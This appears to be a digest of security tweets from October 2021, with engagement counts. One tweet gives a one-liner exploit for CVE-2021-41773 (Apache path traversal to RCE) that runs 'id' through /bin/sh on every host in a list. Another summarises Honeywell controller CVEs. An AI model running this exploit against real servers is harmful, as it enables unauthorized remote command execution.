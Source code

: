 * https://ubuntu.com/security/CVE-2021-41773

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>31</code></td>
</tr></table>

---

# HackerGautam
**https://twitter.com/HackerGautam/status/1445666357920428036 _at 2021-10-06, 08:24:53_**
<blockquote>
Update : CVE-2021-41773 POC as RCE 🔥👇💥

✅One Liner:
cat file | while read host do ; do curl --silent --path-as-is --data "echo;id" '$host/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh' | grep "uid" &amp;&amp; echo "$host \033[0;31mVuln\n"|| echo "$host \033[0;32mNot\n";done

#infosec #bugbounty
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>104</code></td>
<td>Favorites: <code>333</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1445654263971995653 _at 2021-10-06, 07:36:50_**
<blockquote>
Multiple critical vulnerabilities have been discovered in #Honeywell Experion PKS and ACE Controllers that could be exploited for RCE and DoS attacks on critical processes.

https://t.co/3Phji231fH

CVE-2021-38397 (CVSS 10)
TypeCVE-2021-38395 (CVSS 9.1)
CVE-2021-38399 (CVSS 7.5)
</blockquote>

* https://thehackernews.com/2021/10/multiple-critical-flaws-discovered-in.html

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>58</code></td>
<td>Favorites: <code>93</code></td>
</tr></table>

---